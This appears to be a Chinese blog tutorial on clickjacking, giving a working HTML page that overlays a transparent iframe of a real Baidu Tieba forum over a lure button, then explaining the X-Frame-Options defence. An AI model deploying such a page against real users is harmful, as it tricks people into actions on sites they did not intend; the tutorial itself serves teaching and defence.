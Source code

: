 # 点击劫持

## 攻击举例

```html
<!DOCTYPE HTML>
<html>
    <head>
        <title>点击劫持</title>
        <style>
            html,
            body,
            iframe {
                display: block;
                height: 100%;
                width: 100%;
                margin: 0;
                padding: 0;
                border: none;
            }

            iframe {
                opacity: 0.5; 
                /* opacity:0时点击劫持 */
                filter: alpha(opacity=0);
                position: absolute;
                z-index: 2;
            }

            button {
                position: absolute;
                top: 355px;
                left: 462px;
                z-index: 1;
                width: 72px;
                height: 26px;
            }
        </style>
    </head>

    <body>
        那些不能说的秘密
        <button>查看详情</button>
        <iframe src="http://tieba.baidu.com/f?kw=%C3%C0%C5%AE"></iframe>
    </body>
</html>
```

![](https://raw.githubusercontent.com/caistrong/Blog/master/_posts/clickjacking/tieba-clickjacking.png)
我想代码配上图已经一目了然了，所谓点击劫持就是通过iframe引入我们想要劫持的网站，将其opacity设为0，这个网站就变成透明的，然后在我们的页面设置一些诱导性的按钮，让用户去点击这个按钮，实际上用户是点击了我们劫持的网站。在我们的示例中，我们通过点击劫持为【美女吧】骗取了一个关注

## 点击劫持防范

我们打开上面的页面，按下F12然后选择Network，查看请求贴吧html页面的Response Headers
![](https://raw.githubusercontent.com/caistrong/Blog/master/_posts/clickjacking/tieba-response-headers.png)
至于为什么查看Response Headers我们这里先不谈

我们尝试把上面的iframe的src改为如下
```html
<iframe src="https://github.com/caistrong"></iframe>
```
再次刷新我们的点击劫持html页面，发现不能像劫持百度贴吧一样劫持Github，我们看到控制台的报错如下
![](https://raw.githubusercontent.com/caistrong/Blog/master/_posts/clickjacking/github-error.png)
发现我们的劫持行动失败了

我们新建标签页打开 https://github.com/caistrong 这个网址，再次查看请求html的Response Headers
![](https://raw.githubusercontent.com/caistrong/Blog/master/_posts/clickjacking/github-response-headers.jpg)

我们发现一个与贴吧的Response Headers不同的地方
```bash
X-Frame-Options: deny
```

这个响应头就是Github成功防范我们点击劫持的关键所在，参考[MDN X-Frame-Options响应头](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/X-Frame-Options)

简单讲就是在后端返回响应html页面的时候，响应头里面增加X-Frame-Options: deny或者X-Frame-Options: sameorigin，可以避免攻击者在自己的页面通过iframe嵌入我们开发的页面。
